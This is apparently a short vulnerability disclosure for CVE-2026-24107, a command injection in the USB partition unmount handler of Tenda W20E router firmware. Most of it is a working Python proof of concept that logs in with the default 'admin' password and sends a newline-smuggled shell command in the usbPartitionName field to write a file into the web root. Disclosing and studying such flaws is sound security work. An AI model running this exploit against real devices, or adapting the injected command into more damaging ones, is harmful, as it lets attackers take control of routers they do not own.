

# CVE-2026-24107 漏洞信息

## 基础信息
- **CVE编号**: CVE-2026-24107
- **影响组件**: goform/formSetUSBPartitionUmount
- **固件版本**: Tenda W20E V4.0br_V15.11.0.6

## 漏洞详情



formSetUSBPartitionUmount

Failure to validate the value of `usbPartitionName`, which is directly used in `doSystemCmd`, may lead to critical command injection vulnerabilities.
POC
```
import requests

session = requests.Session()

login_url = "http://192.168.0.252/login/Auth"
headers = {
    "Host": "192.168.0.252",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "http://192.168.0.252",
    "Connection": "close",
    "Referer": "http://192.168.0.252/login.asp",
    "Cookie": "G3v3_user=",
    "Upgrade-Insecure-Requests": "1",
    "Priority": "u=0, i"
}

login_data = {
    "password": "YWRtaW4="  #base64 encoded 'admin'
}

response = session.post(login_url, headers=headers, data=login_data)

url = "http://192.168.0.252/goform/umountUSBPartition"
data = {"usbPartitionName": "\necho PWN!!! > /webroot/1.html\n"}
response = session.post(url, data=data)

print(response.text)
```
